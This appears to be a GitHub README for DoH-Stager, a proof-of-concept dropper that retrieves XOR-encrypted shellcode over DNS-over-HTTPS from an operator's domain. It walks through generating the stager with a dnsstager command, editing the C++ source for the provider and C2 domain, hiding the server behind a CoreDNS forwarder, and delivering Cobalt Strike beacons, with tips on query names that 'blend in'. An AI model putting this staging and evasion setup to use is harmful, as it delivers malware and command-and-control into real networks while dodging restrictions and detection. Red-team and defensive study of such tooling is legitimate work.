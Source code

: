 # DoH-Stager

###### Diahane-Oh-Stager - Common Tuscanian Expression of Disappointment 

DoH-Stager is an expansion of the awesome [DNSStager](https://github.com/mhaskar/DNSStager) tool made by [@mohammadaskar2](https://twitter.com/mohammadaskar2). DoH-Stager is aimed at providing the same functionalities as the original version, but using DNS-over-HTTPS instead of classic DNS. 

For those who are not familiar with DNSStager, the project allows the operator to create a number of stagers that will fetch an arbitrary payload via DNS. Despite the PoC is intended to be used with a shellcode, it can adapted to retrieve any content such as encryption keys or other post-exploitation capabilities. 

This update was necessary in order to operate in environments where DNS resolution was restricted on the host and mostly delegated to the HTTP proxy.

## Usage

In order to use DoH-Stager you need to configure the following components:

- A custom NS record configured in your DNS provider that points to the host where the DNSStager server was deployed
- A fully functioning DNSStager deployment, as outlined [here](https://github.com/mhaskar/DNSStager#installation).

Run the `dnsstager`python script as follows:

```
./dnsstager.py  --domain p.pacc.tortellozzi.club --payload x64/c/ipv6 --o
utput ~/payload.exe --prefix emperor --sleep 1 --xorkey 0x10 --shellcode_path ~/calc-thread64.bin
```

The arguments:

- `--domain p.pacc.tortellozzi.club` is the domain that you want to use for DNSStager
- `--payload x64/c/ipv6`is the type of payload that you want to generate, do not change this.
- `--prefix emperor` the prexif to prepend to all the queries, find a suitable name that will blend in.
- `--xorkey 0x10`the key used to encrypt the shellcode/payload  
- `--shellcode_path ~/calc-thread64.bin` is the shellcode that you want to serve 

Take note of the `xorkey` parameter you use, as you will need to manually copy it in the `DoHStager.cpp` file later.

You can modify line 18 of the `DoHStager.cpp` file to use other DoH providers, the provided PoC only used Google's DNS:

```
 18 #define DOMAIN              "dns.google.com"
```

You will also need to modify line 189 to specify your custom domain:

```
189                 sprintf_s(domain, 200, "emperor%i.p.pacc.tortellozzi.club",     i);
```

the above should match with the values that you specified when the `dnsstager` server was launched.

Compile the project using Visual Studio (tested with VS2019) and enjoy your dropper! Of course it is missing several features, such as:

- Execution guardrails
- OpSec-safe process injection

But after all we want to keep a couple of aces in our sleeve and not provide a fully weaponised version available to the public.

In addition, if you do not want to expose your DNSStager server directly to the internet, and there are several reasons for not doing it, as outlined in F-Secure's blog [Detecting Exposed Cobalt Strike DNS Redirectors](https://labs.f-secure.com/blog/detecting-exposed-cobalt-strike-dns-redirectors), it is possible to use CoreDNS to provide an additional layer of obfuscation.

Using the proposed configuration it will be possible to have a DNS server that will forward DNS queries to all the domain via the Quad9 resolver, whilst forwarding the traffic to the DNSStager server only for the desired zone.

The Corefile that can be used is the following:

```
. {
log
  forward . 9.9.9.9
}

p.pacc.tortellozzi.club {
        log
        forward . 127.0.0.1:5050
}
```

And the only thing that was changed in the original server's python script was the port where the server will be listening to:
```
--- a/core/functions.py
+++ b/core/functions.py
@@ -185,8 +185,8 @@ def start_dns_server(ZONES):
     resolver = Resolver(ZONES)

     try:
-        server = DNSServer(resolver, port=53, address="0.0.0.0", tcp=False)
-        print_success("Server started!")
+        server = DNSServer(resolver, port=5050, address="0.0.0.0", tcp=False)
+        print_success("Server started on port 5050!")
         server.start()
```

## Other Notes

* This tool is not great in terms of performance. In fact, to download a fully stageless Cobalt Strike beacon might take approximately one hour wilst genertaing a lot of traffic. Use at your own risk.
* Don't expect a clean code, this is a PoC that was quickly put together using several snippets and stuff like that. If you don't like it, don't use it, I could not care less.
